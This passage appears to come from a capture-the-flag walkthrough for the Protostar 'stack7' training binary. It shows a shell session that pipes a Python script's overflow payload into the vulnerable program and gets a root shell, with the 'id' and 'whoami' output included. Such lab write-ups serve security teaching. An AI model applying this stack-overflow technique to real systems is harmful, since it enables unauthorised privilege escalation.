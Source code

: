 Now, we beat this level :D

``` shell
user@protostar:~$ (python script.py ; cat) | /opt/protostar/bin/stack7
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPDRRRRSSSSTTTTD���AAAA�c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```